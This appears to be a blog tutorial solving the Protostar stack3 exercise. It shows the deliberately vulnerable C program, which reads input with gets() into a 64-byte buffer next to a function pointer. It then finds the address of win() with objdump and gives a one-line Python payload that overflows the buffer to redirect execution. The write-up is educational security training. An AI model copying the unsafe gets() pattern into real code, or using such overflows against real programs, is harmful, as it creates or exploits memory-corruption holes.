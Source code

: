 ```yaml
---
layout: post
title: "Redirecting Code To Specific Address: protostar stack3"
date: 2018-10-23 16:02:45 -700
categories: jekyll update
---
```

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
{% endhighlight %}

Here we have a function outside of the main() called win() and in the main we have a blank function pointer within main, conveniently located right after the end of a buffer. 

If you are not familiar with how a c program runs, the code contained in the main() will be executed, and other functions outside of it are typically called within main. Since the function win() is never called by main(), it will never execute. Unless you are a hacker. 

The basic idea is the same for this program, we will overflow the buffer and write whatever we want to the fp() pointer. In this case, we need to write the address of the win() function.

There are many ways to get the address of the main function including using a debugger like GDB (a tool I use a lot), but for the sake of simplicity, I will show how to find this address using a command called objdump.

objdump has many uses, but for our purpose we should run it with the -S flag, in order to get the source, which will contain memory addresses of functions. We can also use grep to give us only the win() address.

$objdump -S stack3 | grep win

08048424 <win>:

$

Now we have the address.

$python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3

calling function at 0x08048424
code flow successfully changed

Cool. We have changed the code flow to a specific part of memory. This is a very useful tactic, which will be expanded upon in later challenges. 